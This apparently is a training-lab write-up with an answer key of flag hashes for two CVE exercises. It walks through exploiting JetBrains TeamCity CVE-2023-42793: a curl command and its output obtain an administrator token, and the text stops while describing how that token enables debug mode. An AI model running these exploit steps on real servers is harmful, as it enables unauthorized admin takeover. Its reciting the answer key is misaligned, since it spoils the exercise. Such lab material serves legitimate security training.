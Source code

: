 
| Section                                          | Question Number | Answer                           |
| ------------------------------------------------ | --------------- | -------------------------------- |
| Usage Example: JetBrains TeamCity CVE-2023-42793 | Question 1      | 29757d1f8a0de16c6711bceab9d35749 |
| Usage Example: Zabbix CVE-2024-22120             | Question 1      | 7371c170c113fed700a17c4da7da7ebf |

## Acronyms Used in Writeups

| Acronym | Meaning |
| --- | --- |
| STMIP | Spawned Target Machine IP Address |
| STMPO | Spawned Target Machine Port |
| PMVPN | Personal Machine with a Connection to the Academy's VPN |
| PWNIP | Pwnbox IP Address (or PMVPN IP Address) |
| PWNPO | Pwnbox Port (or PMVPN Port) |

# Usage Example: JetBrains TeamCity CVE-2023-42793

## Question 1

### "Exploit the CVE-2023-42793 vulnerability on the spawned target and enter the content of the root.txt file located at the Administrator user's Desktop folder as your answer."

After spawning the target, students will open a terminal and are going to proceed to exploit `CVE-2023-42793` and obtain an Administrator token (inside the `value` parameter) using `cURL` to send a `POST` request targeting the `/app/rest/users/id:1/tokens/RPC2` endpoint:

Code: shell

```shell
curl -X POST http://STMIP/app/rest/users/id:1/tokens/RPC2
```

```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-z9z5rop7yg]─[~]
└──╼ [★]$ curl -X POST http://10.129.22.176/app/rest/users/id:1/tokens/RPC2

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-12-05T00:24:09.948-06:00" value="eyJ0eXAiOiAiVENWMiJ9.ZE5WVFYyM09YTm41R1JNVU50Uy1BbXhJUmhF.MjdkNWY4ZGItNjkzYi00ZTYzLWJhYTktMGFhMGQ1NjU2NDM1"/>
```

Students will enable debug mode in the TeamCity application by sending a `POST` request to the `/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true` endpoint using the token obtained previously using the `-H` header option to specify the `Authorization: Bearer` value followed by the token. :
